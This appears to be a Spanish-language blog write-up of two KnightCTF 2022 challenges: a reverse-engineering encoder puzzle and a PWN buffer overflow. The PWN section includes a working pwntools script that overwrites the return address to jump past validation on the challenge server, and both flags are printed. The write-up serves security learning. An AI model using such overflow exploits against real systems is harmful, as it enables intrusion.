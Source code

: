 ```yaml
---
title: KnightCTF 2022
published: true
---
```


KnightCTF 2022, es el primer _capture de flag_ organizado por [Knight Squad](https://knightsquad.org/), este es de tipo _jeopardy_, por lo que encontraremos distintas categorias.

<div style="text-align:center">
  <img src="https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/1.png">
</div>

### [](#header-3)Reverse Engineering

#### [](#header-4)The Encoder

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/2.png)

Al extraer y ejecutar el binario, [the_encoder.out](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/the_encoder.zip), vamos a darnos cuenta que nos pregunta por una cadena de caracteres; si introducimos cualquier caracter, el binario nos devolverá un valor bastante similar a los que encontramos en el enunciado del reto.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/3.png)

Por otra parte, podemos darnos cuenta que si introducimos caracteres consecutivos, el valor que nos devuelve también lo es, esto ya nos da una posible idea de por donde van los tiros.

Podemos consultar una [tabla de código ASCII](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/4.png), para saber en que orden van los caracteres, y así simplificar las cosas.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/5.png)

```
KCTF{s1Mpl3_3Nc0D3r_1337}
```

### [](#header-3)PWN

#### [](#header-4)What's Your Name

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/6.png)

Al extraer y ejecutar el binario, [whats_your_name](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/whats_your_name.zip), vamos a darnos cuenta que nos pregunta por un nombre; si introducimos cualquier cadena de caracteres, el binario nos devolverá un mensaje de bienvenida.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/7.png)

Si introducimos una cadena de caracteres lo suficientemente larga, conseguiremos un `Segmentation Fault`, lo cual nos da la idea de un posible `Buffer Overflow`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/8.png)

Podemos empezar a depurar el binario con `GEF`, tal y como lo hicimos en la máquina [Safe](https://mateonitro550.github.io/Safe-Hack-The-Box) de _Hack The Box_, y nos daremos cuenta que el _buffer_ tiene una longitud de _72 bytes_.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/9.png)

Ya con esto en mente, podemos analizar el binario con `Ghidra`, y nos daremos cuenta que dentro de la función `main`, después de hacer una serie de validaciones, se está ejecutando un `cat` al archivo `/home/hacker/flag.txt`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/10.png)

De modo que si apuntamos a esta dirección, omitiremos toda la validación y conseguiremos listar la flag; para ello, haremos un script bastante similar al de la máquina [Safe](https://mateonitro550.github.io/Safe-Hack-The-Box) de _Hack The Box_.

```python 
#!/usr/bin/python3

from pwn import *

context.terminal = ['gnome-terminal', '-x']
context.arch = 'amd64'
context.os = 'linux'

p = remote("198.211.115.81", 10001)

flag = p64(0x4011d3)

junk = ("A"*72).encode()

p.sendline(junk + flag)

p.interactive()
```

```
KCTF{bAbY_bUfF3r_0v3Rf1Ow}
```

